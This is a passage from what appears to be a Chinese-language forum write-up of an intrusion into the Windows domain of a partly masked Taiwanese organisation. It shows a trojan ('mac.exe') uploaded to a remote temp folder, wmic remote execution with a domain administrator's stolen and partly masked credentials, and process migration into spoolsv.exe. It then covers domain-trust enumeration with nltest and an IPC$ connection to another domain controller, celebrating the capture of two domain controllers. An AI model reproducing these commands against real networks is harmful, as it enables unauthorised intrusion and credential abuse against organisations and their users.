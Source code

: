 然后将木马给传到192.168.123.219的c:\\windows\\temp\\目录下，名为mac.exe

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1d232a97488705577cf82c104b84c3f0f375d16d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1d232a97488705577cf82c104b84c3f0f375d16d.png)

接着wmic远程执行命令，运行那个马儿

> shell wmic /node:192.168.123.219 /user:ty****\\steve /password:ay2**** process call create "cmd.exe /c C:\\Windows\\Temp\\mac.exe"

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cb886dff563afe026ab446af49fcd9be0adcc060.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cb886dff563afe026ab446af49fcd9be0adcc060.png)

运行成功，来了来了

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07438a4a42c4f10344f035d8d3da1fd5f0bbe2d5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07438a4a42c4f10344f035d8d3da1fd5f0bbe2d5.png)

这里做进程迁移，将shell给搞到了spoolsv.exe中

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4a4fb51f6cd52c2c6a68454edfbdebfc102cbc9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4a4fb51f6cd52c2c6a68454edfbdebfc102cbc9.png)

好了，现在ty\*\*\*的两个域控都拿下了

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2022000dd78ca686963162870f985bc35fe6a55.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c2022000dd78ca686963162870f985bc35fe6a55.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f7ee3b929fa9e75e7865500bd29965aa9d2a2a9c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f7ee3b929fa9e75e7865500bd29965aa9d2a2a9c.png)

查看域信任：nltest /domain\_trusts

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6e7d7e47c89a5b229ddccc7f3fa9454ff591924d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6e7d7e47c89a5b229ddccc7f3fa9454ff591924d.png)

三个域：a001.ty**\*n.com.tw、ty****n.com.tw、ty****y.com.tw，第一个是第三个的子域  
其中的tyt\*\*\***y.com.tw已经被拿下，所以考虑另外一个域  
查看ty\*\*\*\*n.com.tw的ip

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1eda2a68b2f59f6ff678ed79bc643b0ef73385b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1eda2a68b2f59f6ff678ed79bc643b0ef73385b2.png)

一般只有域控才做DNS解析，所以192.168.123.2大概率就是域控了

在192.168.123.217上面与192.168.123.2建立共享连接  
这里用steve的账号密码去登录了192.168.123.2 的smb，所以steve也是上面的域管

> shell net use \\192.168.123.2\\ipc$ "ay***" /user:"ty***y\\steve"

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b29893bd3953299ea666a5f538589fbafb717cb8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b29893bd3953299ea666a5f538589fbafb717cb8.png)
